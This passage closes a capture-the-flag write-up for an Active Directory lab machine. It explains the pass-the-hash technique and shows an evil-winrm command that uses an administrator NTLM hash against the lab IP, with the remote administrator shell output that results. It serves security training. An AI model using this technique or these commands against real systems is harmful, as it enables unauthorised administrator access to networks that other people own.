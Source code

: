 Now we have the hashes of different user's and Administrator. We can bruteforce them offline to extract the plain text password or can also perform **pass-the-hash** attack to gain remote shell on user account

###  Pass-The-Hash

**pass the hash** is a hacking technique that allows an attacker to authenticate to a remote server or service by using the underlying **NTLM** or **LanMan** hash of a user's password, instead of requiring the associated plaintext password as is normally the case. It replaces the need for stealing the plaintext password to gain access with stealing the hash. This happens due to **NTLM** protocol, used in AD to authenticate users. [reference](https://en.wikipedia.org/wiki/NTLM)

We can perform **pass-the-hash** attack using different tools like `evil-winrm`, `psexec.py` and `wmiexec.py`

#### Evil-wirnm

Using Evil-winrm.

```powershell
$ evil-winrm -i 10.10.127.19 -u administrator -H 'ee4457ae59f1e3fbd764567d9cef123d' 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami 
blackfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

# Happy Hacking ❤

# Reference

- https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
